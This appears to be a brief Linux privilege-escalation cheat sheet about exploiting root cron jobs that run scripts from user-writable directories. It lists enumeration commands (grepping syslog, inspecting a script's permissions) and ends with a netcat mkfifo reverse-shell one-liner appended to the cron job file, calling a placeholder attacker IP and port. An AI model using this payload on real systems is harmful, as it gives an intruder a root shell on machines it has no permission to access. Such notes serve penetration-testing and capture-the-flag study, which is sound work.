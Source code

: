 On a Linux system, the cron time-based job scheduler is a prime target, since system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

# Enumeration
```bash
grep "CRON" /var/log/syslog
```
Example vulnerable log showing root running a script in a user writeable directory:
![image](https://github.com/user-attachments/assets/93cf4552-bb6f-4bb0-b373-e6a84ff5afcf)

## Inspect Content/Permissions of cron job
```bash
ls -lah /home/joe/.scripts/user_backups.sh
```
```bash
cat /home/joe/.scripts/user_backups.sh
```
### Revshell Oneliner
If the cronjob can be overwritten:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $(ATTACKER IP) $(PORT) >/tmp/f" >> $(CRONJOB_FILE)
```
